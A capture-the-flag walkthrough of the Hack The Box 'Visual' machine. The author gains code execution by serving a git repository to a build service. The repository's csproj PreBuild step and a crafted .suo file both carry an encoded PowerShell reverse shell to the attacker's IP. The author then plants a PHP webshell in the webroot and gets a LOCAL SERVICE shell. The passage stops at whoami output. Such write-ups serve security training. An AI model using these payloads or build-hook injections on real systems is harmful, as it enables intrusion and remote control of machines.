*Nmap scan*:

```shell
$ cat nmap_allports.txt                    
# Nmap 7.94SVN scan initiated Thu Feb 15 14:08:29 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.234
Nmap scan report for 10.10.11.234
Host is up (0.036s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Thu Feb 15 14:10:58 2024 as: nmap -p80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.234
Nmap scan report for 10.10.11.234
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: Visual - Revolutionizing Visual Studio Builds
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
```

Only port 80 seems to be available.



Among the features of the webapp is to enter a URL for a Visual Studio solution to then be compiled from the backend.



As a test, you activate a listener with netcat and try to enter a URL specifying as the IP that of the attacking machine.

```http
POST /submit.php HTTP/1.1
Host: 10.10.11.234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Origin: http://10.10.11.234

gitRepoLink=http%3A%2F%2F10.10.14.8%3A4444%2Fasd.git
```

The backend request was correctly received.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::312b:525:f642:960c  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.234] 49671
GET /asd.git/info/refs?service=git-upload-pack HTTP/1.1
Host: 10.10.14.8:4444
User-Agent: git/2.41.0.windows.1
Accept: */*
Accept-Encoding: deflate, gzip, br, zstd
Pragma: no-cache
Git-Protocol: version=2
```

From the user-agent you can find out that the version of Git installed at the backend is 2.41.0. Try to upload the [https://github.com/AleDiBen/RevShell](https://github.com/AleDiBen/RevShell) repository, as it also contains the ".sln" file as requested on the webapp homepage.

After a few minutes an error returned.



From the stacktrace, it is evident that the process performing the compilation is "Microsoft Visual Studio 2022".

A series of searches are conducted until the following repository is reached: [https://github.com/cjm00n/EvilSln](https://github.com/cjm00n/EvilSln). The repository brings up an issue: it is possible to execute arbitrary commands when certain events of IDEs, in this case Visual Studio, are triggered.

The exploit consists of a special binary file called ".suo" that is opened automatically when the "*.sln" or "*.csproj" file is opened. So now the goal is to figure out how to generate the malicious ".his" file in such a way as to get a shell on the machine. The following repository is identified: [https://github.com/moom825/visualstudio-suo-exploit](https://github.com/moom825/visualstudio-suo-exploit). An executable is already made available in the repository that, from input ".suo" files, produces an output ".suo" file that contains a given payload. Let's try it out. The input ".suo" file is the one contained in the "EvilSln" repository.

```shell
PS C:\...\suo_exploit> ls .\suo_exploit_test.exe


    Directory: C:\:\...\suo_exploit


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        15/02/2024     16:25         462848 suo_exploit_test.exe


PS C:\:\...\suo_exploit> ls .\input.suo


    Directory: C:\:\...\suo_exploit


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        15/02/2024     16:29          58880 input.suo


PS C:\...\suo_exploit> .\suo_exploit_test.exe .\input.suo injected.suo powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
Complete!
Press enter to exit...

PS C:\Users\pgros\Downloads\suo_exploit> ls


    Directory: C:\Users\pgros\Downloads\suo_exploit


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        15/02/2024     16:33          64000 injected.suo
-a----        15/02/2024     16:29          58880 input.suo
-a----        15/02/2024     16:25         462848 suo_exploit_test.exe
```

Now the malicious structure of the project must be built, as indicated in the "EvilSln" repository.

```shell
$ mkdir VisualSln
$ cd VisualSln
$ mkdir App1
$ cp ../EvilSln/App1/Form1.cs App1
$ cp ../EvilSln/App1.sln .
$ nano App1/App1.csproj
$ cat App1/App1.csproj 
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
$ mkdir -p .vs/App1/v17
$ mv ../injected.suo .vs/App1/v17/.suo
$ tree -a    
.
├── .vs
│   └── App1
│       └── v17
│           └── .suo
├── App1
│   ├── App1.csproj
│   └── Form1.cs
└── App1.sln

5 directories, 4 files
```

A Git repository must then be created.

```shell
$ git init                     
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint:   git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint:   git branch -m <name>
Initialized empty Git repository in /home/kali/Desktop/htb/visual/files/VisualSln/.git/
$ git add .
$ git commit -m "first commit"                          
[master (root-commit) 87efe72] first commit
 4 files changed, 60 insertions(+)
 create mode 100644 .vs/App1/v17/.suo
 create mode 100644 App1.sln
 create mode 100644 App1/App1.csproj
 create mode 100644 App1/Form1.cs
$ ls -la
total 24
drwxr-xr-x 5 kali kali 4096 Feb 15 17:19 .
drwxr-xr-x 3 kali kali 4096 Feb 15 17:17 ..
drwxr-xr-x 8 kali kali 4096 Feb 15 17:19 .git
drwxr-xr-x 3 kali kali 4096 Feb 15 16:44 .vs
drwxr-xr-x 2 kali kali 4096 Feb 15 17:17 App1
-rw-r--r-- 1 kali kali 1093 Feb 15 16:44 App1.sln
```

Last step: the Git repository should be made available for download via HTTP, as reported in [https://stackoverflow.com/questions/2278888/private-git-repository-over-http](https://stackoverflow.com/questions/2278888/private-git-repository-over-http).

```shell
$ ls -l 
total 4
drwxr-xr-x 5 kali kali 4096 Feb 15 17:19 VisualSln
$ git clone --bare VisualSln 
Cloning into bare repository 'VisualSln.git'...
done.
$ ls -l
total 8
drwxr-xr-x 5 kali kali 4096 Feb 15 17:19 VisualSln
drwxr-xr-x 7 kali kali 4096 Feb 15 17:21 VisualSln.git
$ cd VisualSln.git
$ git --bare update-server-info
$ cd ..
$ ifconfig tun0 | grep inet && python3 -m http.server 80
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::312b:525:f642:960c  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

A netcat listener is enabled on port 4444 and you have specified repository URL "VisualSln.git" in the webapp.



It does not work. 

Among the forks in the "EvilSln" project, we identify one of extreme interest: [https://github.com/blackninja23/VisualStudio-RCE-EvilSln](https://github.com/blackninja23/VisualStudio-RCE-EvilSln). This is a repository in which the csproj file is as of following:

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
    <RunPostBuildEvent>Always</RunPostBuildEvent>
  </PropertyGroup>

  <Target Name="PreBuild" AfterTargets="PreBuildEvent">
    <Exec Command="<OS_COMMAND>" />
  </Target>

</Project>
```

There is a command execution in the PreBuild event. "App.csproj" file has been modified so that an HTTP request is executed (to test the vulnerability).



Then you entered the URL of the local repository into the webapp.





Remote code execution confirmed. The goal is to obtain a shell. The csproj file is modified as follows:

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
    <RunPostBuildEvent>Always</RunPostBuildEvent>
  </PropertyGroup>

  <Target Name="PreBuild" AfterTargets="PreBuildEvent">
    <Exec Command="powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"/>
  </Target>

</Project>
```


A netcat listener on port 4444 is activated and the local repository URL is entered again. A few minutes are waited.



Excellent.

***user.txt***: dd5568f015bea4f31529656a3b075489



It's time to privesc. "`C:\xampp\htdocs`" represents the webroot of the webapp at port 80. You want to check whether we have write privilege in the webroot and with what privileges the application is running.

```shell
PS C:\xampp\htdocs> ls


    Directory: C:\xampp\htdocs


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/10/2023  10:32 AM                assets                                                                
d-----        6/10/2023  10:32 AM                css                                                                   
d-----        6/10/2023  10:32 AM                js                                                                    
d-----        2/16/2024   4:19 AM                uploads                                                               
-a----        6/10/2023   6:20 PM           7534 index.php                                                             
-a----        6/10/2023   4:17 PM           1554 submit.php                                                            
-a----        6/10/2023   4:11 PM           4970 vs_status.php                                                         


PS C:\xampp\htdocs> echo aaa > test.txt
PS C:\xampp\htdocs> dir


    Directory: C:\xampp\htdocs


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/10/2023  10:32 AM                assets                                                                
d-----        6/10/2023  10:32 AM                css                                                                   
d-----        6/10/2023  10:32 AM                js                                                                    
d-----        2/16/2024   4:19 AM                uploads                                                               
-a----        6/10/2023   6:20 PM           7534 index.php                                                             
-a----        6/10/2023   4:17 PM           1554 submit.php                                                            
-a----        2/16/2024   4:59 AM             12 test.txt                                                              
-a----        6/10/2023   4:11 PM           4970 vs_status.php
```

You have write permissions in the webroot. A php webshell was uploaded then to verify application privileges.

```shell
PS C:\xampp\htdocs> wget http://10.10.14.8/simple-backdoor.php -O ws.php
PS C:\xampp\htdocs> ls


    Directory: C:\xampp\htdocs


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/10/2023  10:32 AM                assets                                                                
d-----        6/10/2023  10:32 AM                css                                                                   
d-----        6/10/2023  10:32 AM                js                                                                    
d-----        2/16/2024   4:19 AM                uploads                                                               
-a----        6/10/2023   6:20 PM           7534 index.php                                                             
-a----        6/10/2023   4:17 PM           1554 submit.php                                                            
-a----        6/10/2023   4:11 PM           4970 vs_status.php                                                         
-a----        2/16/2024   5:00 AM            328 ws.php
```

The webapp is running as "nt authority\local service."



Googling "`nt authority\local service privesc`" one comes across two very valuable resources:
- [https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/)
- [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

In simple words, it is possible to run the "FullPowers.exe" binary to get a shell with "`nt authority\local service`" utility with full privileges.

First we need to take advantage of the webshell to get a shell with "local service" user. The following payload is passed to the "cmd" parameter:

```shell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

As expected, you get a shell with "local service" user.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::ef24:ab7b:6fcb:d2cf  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.234] 49725

PS C:\xampp\htdocs> whoami /all

USER INFORMATION
----------------

User Name                  SID     
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                                        
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                                       
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
